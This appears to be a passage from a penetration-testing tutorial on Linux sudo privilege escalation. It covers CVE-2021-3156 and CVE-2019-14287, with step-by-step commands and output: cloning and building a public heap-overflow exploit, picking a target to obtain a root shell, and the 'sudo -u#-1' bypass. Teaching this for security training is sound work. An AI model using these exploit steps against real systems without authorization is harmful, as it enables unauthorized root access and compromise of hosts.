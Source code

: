 1. Sudo

The `/etc/sudoers` file specifies which users or groups are allowed to run specific programs and with what privileges.

```shell-session
cyberslut@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cyberslut:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cyberslut        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

One of the latest vulnerabilities for `sudo` carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

To find out the version of `sudo`, the following command is sufficient:

```shell-session
cyberslut@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

There is a public [Proof-Of-Concept](https://github.com/blasty/CVE-2021-3156) that can be used for this. We can either download this to a copy of the target system we have created or, if we have an internet connection, to the target system itself.

```shell-session
cyberslut@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cyberslut@nix02:~$ cd CVE-2021-3156
cyberslut@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

When running the exploit, we can be shown a list that will list all available versions of the operating systems that may be affected by this vulnerability.

```shell-session
cyberslut@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

We can find out which version of the operating system we are dealing with using the following command:

```shell-session
cyberslut@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

Next, we specify the respective ID for the version operating system and run the exploit with our payload.

```shell-session
cyberslut@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

Sudo Policy Bypass
Another vulnerability was found in 2019 that affected all versions below `1.8.28`, which allowed privileges to escalate even with a simple command. This vulnerability has the [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) and requires only a single prerequisite. It had to allow a user in the `/etc/sudoers` file to execute a specific command.

```shell-session
cyberslut@nix02:~$ sudo -l
[sudo] password for cyberslut: **********

User cyberslut may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

In fact, `Sudo` also allows commands with specific user IDs to be executed, which executes the command with the user's privileges carrying the specified ID. The ID of the specific user can be read from the `/etc/passwd` file.

```shell-session
cyberslut@nix02:~$ cat /etc/passwd | grep cyberslut

cyberslut:x:1005:1005:cyberslut,,,:/home/cyberslut:/bin/bash
```

Thus the ID for the user `cyberslut` would be `1005`. If a negative ID (`-1`) is entered at `sudo`, this results in processing the ID `0`, which only the `root` has. This, therefore, led to the immediate root shell.

```shell-session
cyberslut@nix02:~$ sudo -u#-1 id

root@nix02:/home/cyberslut# id

uid=0(root) gid=1005(cyberslut) groups=1005(cyberslut)
```